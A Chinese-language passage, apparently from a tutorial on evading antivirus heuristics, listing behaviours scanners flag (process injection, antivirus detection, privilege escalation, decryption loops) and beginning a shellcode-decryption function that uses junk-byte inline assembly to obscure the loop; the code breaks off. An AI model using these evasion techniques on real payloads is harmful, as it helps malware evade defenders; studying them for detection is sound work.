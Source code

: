 读取windows安装日期

释放可执行文件

在二进制文件内存中发现IP地址

修改代理设置

在运行的进程中安装钩子

注入explorer

注入远程进程

查询进程信息

设置过程错误模式以抑制错误框

不正常的熵

检测杀软的存在性

监控指定的注册表项的改变

包含提权的能力

修改软件策略设置

读取系统或视频的BIOS版本

PE头的终点在一个不常用的节中

创建受保护的内存区域

创建大量进程

尝试长时间睡眠

不常用的节

读取windows产品ID

包含解密

包含启动或操作设备驱动的能力

包含阻止用户输入的能力

。。。

当我们编写检测杀软和解密shellcode模块时需要注意这些规则。

**解密shellcode：**

混淆解密机制是必要的，大部分杀软的启发式引擎能够检测到PE文件内部的解密循环，在大量的勒索软件的案例后一些启发式引擎专门用来查找加解密过程。在它们检测到解密过程时一些扫描器会等到ECX寄存器为0时，再分析解密后的内容。

下面是解密shellcode的代码。



```
void DecryptShellcode() `{`
for (int i = 0; i &lt; sizeof(Shellcode); i++) `{`

__asm
`{`
PUSH EAX
XOR EAX, EAX
JZ True1
__asm __emit(0xca)
__asm __emit(0x55)
__asm __emit(0x78)
__asm __emit(0x2c)
__asm __emit(0x02)
__asm __emit(0x9b)
__asm __emit(0x6e)
__asm __emit(0xe9)
```